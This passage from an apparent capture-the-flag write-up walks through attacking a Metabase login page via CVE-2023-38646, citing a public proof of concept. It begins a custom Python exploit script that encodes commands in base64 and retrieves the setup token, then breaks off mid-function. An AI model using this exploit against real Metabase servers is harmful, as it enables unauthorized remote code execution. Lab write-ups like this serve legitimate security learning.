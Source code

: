 Browsing to the discovered virtual host, we find a login prompt for the Metabase service:

![metabase-login](/assets/images/web-exploitation/metabase-login.png)

With no credentials and nothing else to go by, we start researching recent vulnerabilities discovered in Metabase. A search for the keywords `metabase vulnerability cve` leads us to various [CVE repositories](https://www.cvedetails.com/vulnerability-list/vendor_id-19475/product_id-51231/Metabase-Metabase.html) that list an array of CVEs for the service.

### Foothold
Searching for that particular CVE leads us to a public [PoC](https://github.com/kh4sh3i/CVE-2023-38646). Since this PoC uses burp suite collaborator, we can create our own script based on this PoC. To start, we need to get the `setup_token` from our target. Next we define another function that will send our payload. Our final exploit script looks like this:
```python
import requests
import json
import base64
import argparse

def encode_command_to_b64(payload: str) -> str:
    encoded_payload = base64.b64encode(payload.encode('ascii')).decode()
    equals_count = encoded_payload.count('=')
    if equals_count >= 1:
        encoded_payload = base64.b64encode(f'{payload + " " * equals_count}'.encode('ascii')).decode()
    return encoded_payload

def get_setup_token_and_metabase_version(target_host):
    path = "/api/session/properties"
    url = f"{target_host}{path}"
    try:
        response = requests.get(url, verify=False)
        if response.status_code == 200:
```